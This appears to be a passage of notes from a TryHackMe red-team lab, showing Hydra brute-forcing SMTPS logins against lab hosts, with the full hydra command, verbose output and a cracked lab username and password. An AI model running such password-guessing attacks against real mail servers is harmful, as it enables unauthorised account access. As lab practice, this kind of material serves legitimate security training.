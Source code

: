 ```bash

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 454 4.7.0 Temporary authentication failure: Connection lost to authentication server

[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[465][smtp] host: 10.10.208.218   login: pittman@clinic.thmredteam.com   password: !multidisciplinary00                                                                           
[STATUS] attack finished for 10.10.208.218 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-22 12:42:44

```

2nd attempt
```bash
kali=10.10.70.157

rhost=10.10.98.196
wordlist=dict.lst
user=pittman@clinic.thmredteam.com
hydra -l $user -P $wordlist smtps://$rhost -s 465 -v


Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-26 11:55:27
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 5250 login tries (l:1/p:5250), ~329 tries per task
[DATA] attacking smtps://10.10.98.196:465/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
```
